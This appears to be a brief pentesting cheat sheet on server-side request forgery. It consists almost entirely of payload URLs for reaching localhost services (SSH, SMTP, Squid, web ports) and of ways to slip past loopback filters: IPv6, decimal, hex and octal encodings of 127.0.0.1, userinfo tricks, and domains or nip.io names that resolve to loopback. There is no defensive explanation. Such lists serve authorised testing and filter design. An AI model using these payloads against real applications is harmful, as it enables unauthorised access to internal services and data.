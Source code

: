 {% embed url="https://medium.com/@vickieli/exploiting-ssrfs-b3a29dd7437" %}

### By using localhost

```markup
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
[or]
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
[or]
http://localhost:80
http://localhost:443
http://localhost:22
```

### Bypass localhost with \[::] <a href="#id-6452" id="id-6452"></a>

```
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ Squid
http://127.1/
http://0000::1:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

### Bypass localhost with a domain redirecting to localhost

```
https://xyz.com --->> 127.0.0.1
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost

Other way 
use https://nip.io/
NIP.IO maps <anything>.<IP Address>.nip.io to the corresponding <IP Address>, 
even 127.0.0.1.nip.io maps to 127.0.0.1
Like
http://customer1.app.localhost.my.company.127.0.0.1.nip.io will point to 127.0.0.1        
```
